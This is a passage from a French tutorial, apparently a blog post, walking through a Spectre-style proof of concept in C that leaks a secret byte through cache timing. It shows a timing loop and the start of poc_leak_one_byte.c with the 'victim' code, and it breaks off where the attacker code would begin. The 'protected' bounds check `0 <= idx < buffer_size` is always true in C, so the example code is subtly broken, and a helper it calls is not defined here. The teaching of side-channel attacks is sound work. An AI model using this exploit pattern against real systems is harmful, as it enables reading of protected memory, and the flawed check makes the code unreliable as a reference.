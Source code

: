 ```c

int main(void) {
    /* Pour toutes les pages du buffer, on calcule le temps d'accès */
    for(int i = 'A'; i <= 'Z'; i++) {
        /* Le premier argument, c'est l'index permettant d'atteindre le premier octet du secret */
        int evil_idx = 0x12bb36f1; // Exemple au hasard, c'est pour simplifier le code
        printf("%c: %u\n",i, get_index_access_time(evil_idx, i));
    }
}

```

J'ai ajouté beaucoup de commentaires pour comprendre le fonctionnement de l'attaque dans ce programme. Normalement, ces commentaires suffisent à comprendre le programme. En les reportant dans un code fonctionnel, et en précisant des détails, voici le programme complet :

**poc_leak_one_byte.c**

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <x86intrin.h>

#define GREEN   "\x1b[32m"
#define RESET   "\x1b[0m"

#define PAGE_SIZE 512
#define COUNT 100
#define BUFFER_SIZE 16



/**
 ** CODE DE LA VICTIME
 **/

volatile uint32_t buffer_size = BUFFER_SIZE;

/* Buffer maitrisé, des valeurs étant entre 0 et 255 */
volatile uint8_t buffer[BUFFER_SIZE] = {0,1,2,3,4,5,6,7,8,9,10,11,12,13,14,15};

/* Une valeur absolument inaccessible avec la seule fonction ci-dessous */
char * secret = "SECRET";

volatile uint8_t paged_buffer[256 * PAGE_SIZE];
volatile uint32_t paged_buffer_sz = 256 * PAGE_SIZE;

int x;
void my_protected_function(int idx) {
    /*
     * La fonction vérifie que l'index fourni en paramètre est bien dans les limites du tableau
     * de ce programme. Le tableau "buffer" est initialisé/contrôlé par ce programme, donc
     * les valeurs sont maitrisées de telle sorte à ce que 0 <= buffer[idx] <= 255
     */
    if (0 <= idx < buffer_size) {
        x = x ^ paged_buffer[buffer[idx] * PAGE_SIZE];
    }
}

/**
 ** CODE DE L'ATTAQUANT
 **/
```